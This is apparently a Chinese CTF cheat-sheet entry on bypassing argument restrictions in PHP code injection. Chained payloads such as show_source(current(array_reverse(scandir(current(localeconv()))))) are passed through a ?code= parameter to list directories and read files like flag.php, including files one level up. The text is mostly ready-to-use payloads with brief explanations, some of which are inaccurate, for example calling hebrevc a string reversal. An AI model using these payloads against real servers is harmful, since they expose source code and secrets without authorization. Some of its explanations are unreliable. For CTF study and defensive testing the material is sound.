 ##### exp：使用 localeconv()（.）读取当前目录的文件

列出当前目录下的文件

`?code=print_r(scandir(current(localeconv())));`

假设目录结构如下：

```txt
.
..
1.php
flag.php
```

反转目录

`?code=print_r(array_reverse(scandir(current(localeconv()))));`

读取目录的最后一个（反转后的第一个）

`?code=show_source(current(array_reverse(scandir(current(localeconv())))));`

##### exp：使用 getcwd() 读取本级或上级目录的文件

列出当前目录下的文件

`?code=print_r(scandir(getcwd()));`

列出上级目录下的文件

`?code=print_r(scandir(dirname(getcwd())));`

读取上级目录的最后一个

`?code=show_source(current(array_reverse(scandir(chdir(dirname(getcwd()))))));`

随机读取上级目录任意文件（array_flip）

`?code=show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));`
👇
getcwd() 获取当前工作目录。
dirname(getcwd()) 获取当前工作目录的父目录。
chdir(dirname(getcwd())) 将当前工作目录更改为其父目录。
scandir(dirname(chdir(dirname(getcwd())))) 读取新的工作目录（即原来的父目录）下的所有文件和目录。
array_flip(scandir(dirname(chdir(dirname(getcwd()))))) 将文件和目录的数组反转，使得文件和目录名成为数组的键。
array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))) 从键（即文件和目录名）中随机选择一个。
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))) 显示所选文件的源代码。

`?code=show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));`
👇
getcwd() 获取当前工作目录。
scandir(getcwd()) 读取当前工作目录下的所有文件和目录。
next(scandir(getcwd())) 获取当前工作目录下的下一个文件或目录。
chdir(next(scandir(getcwd()))) 将当前工作目录更改为下一个文件或目录。
crypt(chdir(next(scandir(getcwd())))) 对新的工作目录进行哈希加密。
hebrevc(crypt(chdir(next(scandir(getcwd()))))) 将加密后的字符串进行反转。
ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))) 获取反转后的字符串的第一个字符的 ASCII 值。
chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd()))))))) 将 ASCII 值转换回字符。
scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))) 读取由 ASCII 值表示的目录下的所有文件和目录。
array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd()))))))))) 将文件和目录的数组反转，使得文件和目录名成为数组的键。
array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))) 从键（即文件和目录名）中随机选择一个。
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd()))))))))))) 显示所选文件的源代码。
